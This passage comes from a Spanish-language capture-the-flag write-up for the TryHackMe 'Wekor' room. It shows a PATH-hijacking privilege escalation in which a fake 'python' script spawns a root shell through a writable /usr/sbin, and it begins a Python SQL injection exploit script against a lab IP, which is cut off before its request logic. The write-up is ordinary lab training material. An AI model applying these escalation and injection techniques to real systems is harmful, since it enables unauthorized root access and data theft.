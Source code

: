 En este punto, y con la información recabada. Es común pensar en un **path hijacking** para suplantar el binario de python con un script propio.

En este caso en particular, el grupo **Orka** tiene permisos de escritura en el directorio ```/usr/sbin```. Por lo tanto, lo que haré será alojar el script **python** ahí y ejecutar el binario ```bitcoin``` como **root**.

* Código:
  
```bash
#!/bin/bash
/bin/bash
```

![Permissions](/images/THM/Wekor/138-perms.png)

De esta forma, al correr nuevamente el binario ```bitcoin```, el script consultará nuestro "python" y nos otorgará una shell como el usuario **root**.

![root](/images/THM/Wekor/140-root.png)

Con esto concluye este room, lo último sería ingresar las flags en la plataforma.

## Recursos

### Script SQLi

Python script para explotar SQLi de la url: ```http://10.10.201.142/it-next/it_cart.php```.

```python
#!/usr/bin/python3
#coding: utf-8

import re
import sys
import signal
import requests
from termcolor import colored, cprint

sqli_url = "http://10.10.201.142/it-next/it_cart.php"

def def_handler(sig, frame):
    print("\n[!] Exiting...")
    sys.exit(1)

#CTRL + C
signal.signal(signal.SIGINT, def_handler)


def make_request(sqli):
```